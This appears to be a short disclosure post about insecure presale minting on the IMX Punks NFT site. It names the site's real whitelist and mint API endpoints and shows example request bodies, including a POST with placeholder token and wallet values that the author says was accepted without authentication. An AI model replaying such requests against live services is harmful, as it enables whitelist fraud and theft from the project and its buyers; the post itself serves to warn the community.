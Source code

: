 # IMX PUNK Presale Mint
IMX PUNK Minting Exposed
So IMX Punk Presale Minting started on 6th Nov, 2021, soon after kick off they started having minting issues. ( https://mint.imxpunks.com/ )
Seem fishy as there website title was "React App", they forgot to change website title ?

There minting process exposed below.
All these finding made easy because there app.js was un minified and easy to read.

# API in Use
1. Whitelist Status Api - https://2mdkcs2l0l.execute-api.us-east-2.amazonaws.com/trans/transaction [ For presale wallet whitelist fetch ]
2. Mint Api - https://mint-api.imxpunks.com/v1/presale [ To trigger minting after sending payment]

# Findings.
I figured the process of presale minting, there dev implemented below steps, all in Frontend website javascript code.
1. GET whitelist status from Whitlist api ex. https://2mdkcs2l0l.execute-api.us-east-2.amazonaws.com/trans/transaction?walletAddress=0x470299a90c371b17d6dfc101cbc7c090c1555408
    Response
```
     {"isMinted":true,
      "tokenId":4860,
      "walletAddress":"0x470299a90c371b17d6dfc101cbc7c090c1555408"
     }
```
     isMinted :- looks wallet minted the nft or not
     tokenId :- seems they pre mapped nft token id to wallet address.
2. Send eth payment to an address ( 0xb569133ed518d1c3f19ad0af75312cf894cbac7c ).
3. Send mint instruction to minting api with below data 
     ```
    {
          "price": "0.035",
          "tokenId": [4860],
          "walletAddress": "0x470299a90c371b17d6dfc101cbc7c090c1555408"
     }
     ```
    
    ** is it a good practice to accept tokenId in request body from front end ?**
4. Patch Request to Whitlist api https://2mdkcs2l0l.execute-api.us-east-2.amazonaws.com/trans/transaction with below data, to update wallet has minted one nft.
     ```
     {
      "isMinted":true,
      "walletAddress":"0x470299a90c371b17d6dfc101cbc7c090c1555408"
     }
     ```

    ** Is it a good practice to update minting status from front end?**
#Issues 

Seeing patch request is allowed publically, I checked Whitlist api for **DELETE, POST** then I tried POST Reqeust to whitlist api with below data
``` 
{"isMinted":true,
      "tokenId":[#any_nft_id],
      "walletAddress":"#any_wallet_address"
     }
```
And it worked, Rest you can think what happend. :D

This post is just to aware Community about some issues and nothing about IMX Punks team. There are lot of cheap devlopers who does not know how to write protected apis.


